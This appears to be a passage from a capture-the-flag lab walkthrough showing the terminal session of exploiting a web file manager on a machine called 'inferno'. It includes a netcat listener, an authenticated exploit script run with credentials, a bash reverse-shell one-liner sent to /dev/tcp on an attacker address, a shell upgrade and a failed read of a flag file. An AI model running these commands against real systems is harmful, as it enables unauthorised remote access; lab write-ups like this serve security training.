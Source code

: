 ```bash
:~# nc -lvnp 4445
Listening on 0.0.0.0 4445
```

```bash
:~# python3 49705.py http://admin:dante1@xx.xxx.xxx.xx/inferno/ admin dante1 xx.xxx.xx.xxx 4444 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/xx.xxx.xx.xxx/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
[+] Please confirm that you have done the two command above [y/n]
[Y/n] Y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"admin"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"inferno","path":"\/var\/www\/html\/inferno"}}
[+] Writeable Path : /var/www/html/inferno
[+] Sending payload...
```

```bash
:~# echo 'bash -c "bash -i >/dev/tcp/xx.xxx.xx.xxx/4445 0>&1 2>&1"' | nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on xx.xxx.xx.xx 46644
```

<h2>www-data</h2>

```bash
:~# nc -lvnp 4445
Listening on 0.0.0.0 4445
Connection received on xx.xxx.xxx.xx 55216
bash: cannot set terminal process group (859): Inappropriate ioctl for device
bash: no job control in this shell
www-data@...:/var/www/html/inferno/components/filemanager$
```

```bash
www-data@...:/var/www/html/inferno/components/filemanager$ python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || /usr/bin/script -qc /bin/bash /dev/null
```

```bash
ww-data@...:/home/dante$ ls
ls
Desktop    Downloads  Pictures	Templates  local.txt
Documents  Music      Public	Videos
```

```bash
www-data@...:/home/dante$ cat local.txt
cat local.txt
cat: local.txt: Permission denied
```
